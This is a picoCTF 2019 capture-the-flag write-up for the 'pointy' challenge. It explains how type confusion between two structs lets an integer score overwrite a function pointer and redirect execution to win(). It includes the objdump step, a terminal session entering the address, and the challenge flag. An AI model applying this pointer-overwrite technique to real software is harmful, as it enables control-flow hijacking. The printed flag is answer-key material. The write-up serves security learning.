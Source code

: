 ### Writeup for 2019 picoCTF:  
## pointy

### Problem
> Exploit the function pointers in this [program](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln). It is also found in /problems/pointy_0_4da9845cb7c41585de522db47f569424 on the shell server. [Source](https://2019shell1.picoctf.com/static/fdb9b5cce6ac0c34e421786f42629036/vuln.c).  
  
Note the one function pointer in vuln.c's struct Student: `void (*scoreProfessor)(struct Professor*, int)` and that scoreProfessor is called on line 93.  

To get the program to call `win()`, we need to somehow assign win's address to scoreProfessor. Access to scoreProfessor via a student is already blocked by `student->scoreProfessor=&giveScoreToProfessor`.  However:    
1. lastscore and scoreProfessor have the same offset from the respective struct's address.  
2. The student and professor variables in `main` are cast from the return values of retrieveStudent and retrieveProfessor, which are identical.  

This means we could give win's address as a professor's score. Then, cast the professor into a student, which effectively casts Professor's `int lastscore` to Student's `void (*scoreProfessor)(struct Professor*, int)` ie. casts the professor's score to a pointer to win(). Thus the next time student->scoreProfessor is called, win would be executed.  

### Solution: objdump
First `objdump -D vuln | grep win` to disassemble all sections of vuln to get addresses, and pipe that ouput to grep to get only the win function section. You will 08048696 is the address in hex, which converts to 134514326 as int / unsigned int.  
```
@pico-2019-shell1:/problems/pointy_0_4da9845cb7c41585de522db47f569424$ ./vuln
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score   
s0  
Input the name of the professor that will be scored  
s0  
s0  
Input the score:  
134514326  
Score Given: 134514326   
Input the name of a student  
s0  
Input the name of the favorite professor of a student   
s0  
Input the name of the student that will give the score  
s0
Input the name of the professor that will be scored 
s0  
s0  
Input the score:  
0  
```
**Flag: picoCTF{g1v1ng_d1R3Ct10n5_d9be6a30}**
